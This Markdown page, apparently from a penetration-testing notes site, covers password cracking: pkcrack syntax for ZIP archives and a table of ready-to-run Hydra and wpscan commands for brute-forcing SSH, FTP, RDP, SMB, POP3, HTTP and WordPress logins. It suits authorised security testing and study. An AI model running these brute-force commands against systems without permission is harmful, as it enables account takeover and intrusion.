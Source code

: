 # Password Cracking

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

## Headings:

This page was getting to be long, so here are shortcuts to the major sections.  I broke these out into separate pages for better organization and searchability.

* [Getting the hashes](gathering-the-hashes.md)
* [Wordlist manipulation](wordlist-manipulation.md)
* [Cracking the Hashes](cracking-the-hashes.md)

Not all methods of discovering passwords involve directly "cracking" hashes.  Brute forcing logins and direct recovery programs are also viable solutions.

## Password Recovery

Password recovery programs: [https://www.passcape.com/products](https://www.passcape.com/products) \(TODO:Test these!\)

### ZIP Password Retrieval \(with Known Plaintext\)

_Download pkcrack_

[https://www.unix-ag.uni-kl.de/~conrad/krypto/pkcrack/download1.html](https://www.unix-ag.uni-kl.de/~conrad/krypto/pkcrack/download1.html)

! Before using, it must be built from source

_Syntax_

```bash
./pkcrack -C $encrypted.zip -c file -P $plaintext.zip -p file
```

## Brute forcing logins <a id="hydra"></a>

An amazing index of brute-force commands: [https://book.hacktricks.xyz/brute-force](https://book.hacktricks.xyz/brute-force)

### Hydra

Below are a few scriptable examples to brute force logins of common protocols.

| Command | Description |
| :--- | :--- |
| `hydra -P $pass_list -v $ip snmp -vV` | SNMP: Brute force |
| `hydra -t 1 -l $user -P $pass_list -vV $ip ftp` | FTP: with known user, using password list |
| `hydra -vV -u -L $users_list -P $pass_list -t 1 -u $ip ssh` | SSH: using users list, and passwords list |
| `hydra -vV -u -L $users_list -p $pass -t 1 -u $ip ssh` | SSH: with a known password, and a username list |
| `hydra -vV $ip -s $port ssh -l $user -P $pass_list` | SSH: with known username on non-standard port |
| `hydra -vV -l $user -P $pass_list -f $ip pop3` | POP3: Brute Force |
| `hydra -vV -L $users_list -P $pass_list $ip http-get $login_page` | HTTP GET: with user list and pass list |
| `hydra -vV -t 1 -f -l $user -P $pass_list rdp://$ip` | Windows Remote Desktop: with known username, and pass list |
| `hydra -vV -t 1 -f -l $user -P $pass_list $ip smb` | SMB: brute force with known user, and pass list |
| `hydra -vV -l $user -P $pass_list $ip http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'` | WordPress: brute force an admin login |
| `hydra -vV -L $users_list -p $pass $ip http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'` | WordPress: enumerate users |
| `wpscan --url $url -U $user -P $pass_list` | Use wpscan to brute force password with known user |

#### Other useful Hydra options

**`-x min:max:charset` -** Generate passwords from min to max length. Charset can contain `1` for numbers, `a` for lowercase and `A` for uppercase characters.  Any other character that is added is put in the list.   
Example: `1:2:a1%.` The generated passwords will be of length 1 to 2 and contain lowercase letters, numbers and/or percent signs and periods/dots.

**`-e nsr` -** Do additional checks. `n` for null password, `s` try login as pass, `r` try the reverse login as pass

### crackmapexec

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

[https://mpgn.gitbook.io/crackmapexec/](https://mpgn.gitbook.io/crackmapexec/)

## Resources

* [https://www.unix-ninja.com/p/A\_cheat-sheet\_for\_password\_crackers](https://www.unix-ninja.com/p/A_cheat-sheet_for_password_crackers)
* [https://github.com/frizb/](https://github.com/frizb/)
* [https://guide.offsecnewbie.com/password-cracking](https://guide.offsecnewbie.com/password-cracking)
* [https://www.hackingarticles.in/abusing-kerberos-using-impacket/](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)

